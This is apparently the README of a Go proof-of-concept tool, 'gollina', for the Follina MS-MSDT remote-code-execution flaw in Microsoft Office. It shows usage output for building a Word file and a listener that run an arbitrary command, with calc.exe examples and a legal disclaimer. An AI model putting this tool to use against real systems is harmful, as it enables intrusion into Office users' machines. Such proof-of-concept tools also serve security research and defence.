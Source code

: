 ```console
$ gollina -h

  gollina
  Follina MS-MSDT 0-day MS Office RCE PoC in Go
  --
  @dwisiswant0

Usage:
  gollina -c [COMMAND] [OPTIONS...]

Options:
  -h, --host        Listener host (default: 0.0.0.0)
  -p, --port        Listener port (default: 8090)
  -n, --name        Word file name (w/o extension, default: gollina)
  -c, --command     Arbitrary command to execute

Examples:
  gollina -c "cmd.exe /c calc.exe"
  gollina -c "cmd.exe /c calc.exe" -p 8080

```

<hr></hr>
<h6 align="center"><small>DISCLAIMER</small></h6>
<h6 align="center"><sub>Usage of this program without prior mutual consent can be considered as an illegal activity. It is the final user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
</sub></h6>